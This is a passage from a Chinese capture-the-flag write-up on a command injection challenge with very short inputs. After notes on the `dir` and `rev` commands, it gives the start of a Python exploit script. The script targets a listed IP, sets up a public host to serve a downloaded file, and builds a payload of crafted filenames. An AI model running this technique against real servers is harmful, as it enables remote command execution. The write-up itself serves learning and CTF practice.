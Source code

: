 在GNU文档中有下图这样的描述：

[![](https://p4.ssl.qhimg.com/t01406e4dcc8e6ff0f7.png)](https://p4.ssl.qhimg.com/t01406e4dcc8e6ff0f7.png)

虽然基本上和 ls 一样，但有两个好处，一是开头字母是d ，这使得它在 alphabetical 序中靠前，二是按列输出，不换行。



**rev**

这个前面出场过，可以反转文件每一行的内容。

[![](https://p5.ssl.qhimg.com/t010c4a372f495ce020.png)](https://p5.ssl.qhimg.com/t010c4a372f495ce020.png)

实验一下：

[![](https://p1.ssl.qhimg.com/t016a0cf34a18724b08.png)](https://p1.ssl.qhimg.com/t016a0cf34a18724b08.png)



**开始挑战**

需要知道的命令和 tips 都已经介绍了，下面是代码和解释：



```
#-*-coding:utf8-*-
import requests as r
from time import sleep
import random
import hashlib
target = 'http://52.197.41.31/'
 
# 存放待下载文件的公网主机的IP
shell_ip = 'xx.xx.xx.xx'
 
# 本机IP
your_ip = r.get('http://ipv4.icanhazip.com/').text.strip()
 
# 将shell_IP转换成十六进制
ip = '0x' + ''.join([str(hex(int(i))[2:].zfill(2))
                     for i in shell_ip.split('.')])
 
reset = target + '?reset'
cmd = target + '?cmd='
sandbox = target + 'sandbox/' + 
    hashlib.md5('orange' + your_ip).hexdigest() + '/'
 
# payload某些位置的可选字符
pos0 = random.choice('efgh')
pos1 = random.choice('hkpq')
pos2 = 'g'  # 随意选择字符
 
payload = [
    '&gt;dir',
    # 创建名为 dir 的文件
 
    '&gt;%s&gt;' % pos0,
    # 假设pos0选择 f , 创建名为 f&gt; 的文件
 
    '&gt;%st-' % pos1,
    # 假设pos1选择 k , 创建名为 kt- 的文件,必须加个pos1，
    # 因为alphabetical序中t&gt;s
 
    '&gt;sl',
    # 创建名为 &gt;sl 的文件；到此处有四个文件，
    # ls 的结果会是：dir f&gt; kt- sl
```